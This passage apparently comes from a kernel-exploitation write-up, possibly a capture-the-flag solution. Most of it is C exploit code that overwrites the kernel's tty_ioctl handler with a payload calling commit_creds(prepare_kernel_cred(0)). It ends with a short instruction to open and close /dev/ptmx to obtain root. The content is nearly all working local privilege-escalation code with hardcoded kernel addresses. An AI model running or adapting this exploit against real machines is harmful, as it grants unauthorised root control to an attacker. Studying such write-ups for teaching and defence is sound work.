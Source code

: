 As a result, the exploit function looks like
```c
#define PAGE_SIZE 4096
#define PAGE_OFFSET 0xffffffff80000000LL
#define PAGE_SHIFT 12
#define SHELLCODE_LENGTH 0x3d

#define TTY_IOCTL 0xffffffff813ee8f0LL
#define COMMIT_CREDS 0xffffffff8107ab70LL
#define PREPARE_KERNEL_CRED 0xffffffff8107af00LL

int __attribute__((regparm(3))) kernel_payload() {
  _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
  _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;
  commit_creds(prepare_kernel_cred(0));
  return -1;
}

void exploit(int fd)
{
  unsigned int target_page = (TTY_IOCTL - PAGE_OFFSET) >> PAGE_SHIFT;
  unsigned int target_offset = TTY_IOCTL & 0xfffLL;

  char *b = (char*) malloc(PAGE_SIZE);
  if (b == NULL)
    exit(EXIT_FAILURE);
    
  memset(b, 0x90, target_offset); // 0x90 for eventual nop slide, but not necessary
  memcpy(b + target_offset, kernel_payload, SHELLCODE_LENGTH);
  
  printf("[+] Offset set at page number 0x%x\n", target_page);
  lseek(fd, target_page*PAGE_SIZE, SEEK_SET); 
  
  printf("[+] Overwriting tty_ioctl with lpe payload\n");
  write(fd, b, PAGE_SIZE);
  
  free(b);
}
```

## Finally

Once this function is written in memory, it only remains to call it with a classic 
`int pwn = open("/dev/ptmx", 'r'); close(pwn);`, and you should be root. :^)








